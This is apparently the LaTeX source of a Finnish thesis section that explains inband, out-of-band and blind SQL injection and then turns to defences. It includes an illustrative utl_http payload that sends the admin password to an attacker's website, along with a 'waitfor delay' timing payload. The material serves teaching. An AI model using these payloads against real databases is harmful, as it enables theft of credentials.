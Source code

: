 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
\begin{description}
\item[Inband injektio] \hfill \\
Kun SQL-injektion tuloste saadaan samaa reittiä kun se on syötetty, on kyseessä inband injektio. Esimerkiksi jos sovelluksessa on mahdollista hakea lista tuotteista jotka ovat maasta jonka käyttäjä antaa kyselyssä.

\item[Out-of-band injektio] \hfill \\
Kun SQL-Injektion tuloste saadaan eri reittiä kun se on syötetty, on kyseesä out-of-band injektio. Web-sovellus saattaa esimerkiksi tallettaa tietokantaansa millä selaimilla sitä on käytetty. Selaintiedot haetaan HTTP pyynnön "User-Agent" kentästä. Hyökkääjä voi asettaa SQL-injektion User-Agent kenttäänsä. Todennäköisesti hyökkääjä ei näe kyselyn tulosta kyselyn palauttamalla sivulla. Hyökkääjän voi ohjata tulokset itselleen esimerkiksi suorituttamalla injektiossa haun:
	
\begin{lstlisting}[language=sql]
utl_http('http://www.hyokkaajansivu.fi/injections/' || 
	SELECT password
	FROM User 
	WHERE username = 'admin'
)
\end{lstlisting}
Injektion onnistuessa hyökkääjän palvelimen logeissa näkyy esimerkiksi:

\begin{lstlisting}
GET "/injections/admininpassword", 200
\end{lstlisting}

Tällöin hyökkääjä saa selville käyttäjän admin salasanan.

\item[Sokea injektio] \hfill \\
Sokea injektio:
Hyökkääjä ei saa minkäänlaista palautetta sovellukselta. Hyökkääjä voi kuitenkin kokeilla muokata sovelluksen tietoja ja tarkastella vaikuttaako se sovellukseen. Hyökkääjä voi käyttää apunaan sitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-käskyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen. \cite{regexp}


\end{description}

\pagebreak


\section {SQL-Injektiolta suojautuminen}
SQL-Injektiolta suojautumiseen on kehitetty useita keinoja. Keinot voidaan jakaa kolmeen päätyyppiin: Hyvät ohjelmointikäytänteet, SQL-injektion havaitseminen ja SQL-injektion ajonaikainen ehkäisy\cite{detection}.
\end{document}
